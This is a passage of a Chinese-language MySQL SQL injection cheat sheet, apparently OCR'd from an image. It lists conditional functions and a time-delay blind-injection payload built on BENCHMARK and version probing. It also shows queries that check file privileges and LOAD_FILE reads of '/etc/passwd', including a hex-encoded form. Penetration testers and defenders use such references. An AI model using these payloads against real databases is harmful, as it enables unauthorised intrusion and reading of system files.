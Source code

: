 ####                   条件语句

|                       CASE                      |
|                       IF()                      |
|                       IFNULL()                      |
|                       NULLIF()                      |

例子：

```
SELECT IF(1=1, true, false);
SELECT CASE WHEN 1=1 THEN true ELSE false END; 
```

#### 时间延迟查询：

|                       SLEEP()                      |                       MySQL 5                      |
|                       BENCHMARK()                      |                       MySQL 4/5                      |

例子：

```
' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - ' 
```

### 权限

#### 文件权限

下面的语句可以查询用户读写文件操作权限：

| SELECT file_priv FROM mysql.user WHERE user = 'username'; | 需要 root 用户来执行 | MySQL 4/5 |
| SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee like '%username%'; | 普通用户都可以 | MySQL 5 |

#### 读取文件

如果用户有文件操作权限可以读取文件：

```
LOAD_FILE() 
```

例子：

```
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE(0x2F6574632F706173737764); 
```

*   文件必须在服务器上。
*   LOAD_FILE()函数操作文件的当前目录是@@datadir 。
*   MySQL 用户必须拥有对此文件读取的权限。
*   文件大小必须小于 max_allowed_packet。
*   @@max_allowed_packet 的默认大小是 1047552 字节.
